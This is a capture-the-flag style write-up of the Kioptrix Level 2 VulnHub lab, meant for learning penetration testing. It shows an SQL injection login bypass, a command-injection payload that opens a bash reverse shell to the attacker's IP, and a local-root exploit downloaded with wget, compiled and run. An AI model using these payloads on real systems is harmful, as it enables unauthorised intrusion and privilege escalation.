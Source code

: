 ```yaml
---
layout: single
date: 2019-06-21
title: "Kioptrix Level: 2"
header:
    overlay_image: /assets/images/Kioptrix_level2.png
    caption: "[__VulnHub__](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)"
related: true
comments: true
---
```



Hello Everyone!, and welcome to my VulnHub VM Write-Ups!

If you don't have the Kioptrix Level: 2 VM, then you can download it from [here](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/).

## Abot the VM
```console
This Kioptrix VM Image are easy challenges. The object of the game is to acquire root 
access via any means possible (except actually hacking the VM server or player). The 
purpose of these games are to learn the basic tools and techniques in vulnerability
assessment and exploitation. There are more ways then one to successfully complete 
the challenges.
```

## Let's begin!!!!!
```console
root@kali:~# netdiscover

Currently scanning: Finished!   |   Screen View: Unique Hosts                 

2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 84                
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.1.2    [......!!!....]      1      42  Honda Electronics Co.,Ltd 
 192.168.1.24    [......!!!....]      1      42  PCS Systemtechnik GmbH
 ```

 Our target IP is `192.168.1.24`.

 Run the `Nmap` scan.
 ```console
root@kali:~# nmap -sS -A -n 192.168.1.24
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-21 15:45 IST
Nmap scan report for 192.168.1.24
Host is up (0.00045s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            895/udp  status
|_  100024  1            898/tcp  status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2019-06-21T14:16:01+00:00; +4h00m05s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|_    SSL2_DES_64_CBC_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
898/tcp  open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 08:00:27:C9:52:F0 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop

Host script results:
|_clock-skew: mean: 4h00m04s, deviation: 0s, median: 4h00m04s

TRACEROUTE
HOP RTT     ADDRESS
1   0.45 ms 192.168.1.24

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.64 seconds
```
Through our `nmap` scan we can see that the system is running an older version of Apache and MySQL.

Let's browse to this IP `192.168.1.24` through firefox.
We get a `PHP` Login page. Try this MySQL injection
Username: `admin`
Password:  `' OR 1=1 -- -`

We will get a form, where if give an IP it will do ping request on it.
Try: `127.0.0.1`

Again try: `127.0.0.1; id`
This is vulnerable to command execution.

Let's setup Netcat in our local machine
```console
root@kali:~#  nc -nlvp 443
listening on [any] 443 ...

```
Now get back to the browser and run this command : `127.0.0.1; bash -i >& /dev/tcp/192.168.1.6/443 0>&1`
Where `192.168.1.6` is the IP of the local machine.
```console
root@kali:~#  nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.1.6] from (UNKNOWN) [192.168.1.24] 32776
bash: no job control in this shell
bash-3.00$ whoami
apache
bash-3.00$ 
```
We get a remote shell on the target machine.

On checking the version of Linux it is running, we got
```console
bash-3.00$ cat /proc/version
Linux version 2.6.9-55.EL (mockbuild@builder6.centos.org) (gcc version 3.4.6 20060404 (Red Hat 3.4.6-8)) #1 Wed May 2 13:52:16 EDT 2007
bash-3.00$ rpm -q kernel
kernel-2.6.9-55.EL
```
After some research work, we got an exploit which can be downloaded from [here](https://www.exploit-db.com/exploits/9542).
Download it and save it to `/var/www/html/`.
Start Apache in the local machine: `service apache2 start`.

Now get back to the shell we got..and type the following commands :-
`cd /tmp`
`wget http://192.168.1.6/9542.c`
`gcc 9542.c -o exploit`
`./exploit`
`whoami`
```console
bash-3.00$ cd /tmp
bash-3.00$ wget http://192.168.1.6/9542.c
--10:49:58--  http://192.168.1.6/9542.c
           => `9542.c'
Connecting to 192.168.1.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,643 (2.6K) [text/x-csrc]

    0K ..                                                    100%   63.01 MB/s

10:49:58 (63.01 MB/s) - `9542.c' saved [2643/2643]

bash-3.00$ gcc 9542.c -o exploit
9542.c:109:28: warning: no newline at end of file
bash-3.00$ ./exploit
sh: no job control in this shell
sh-3.00# whoami
root
```

Good Luck!

## Thank You! for learning with me. Keep Moving!!!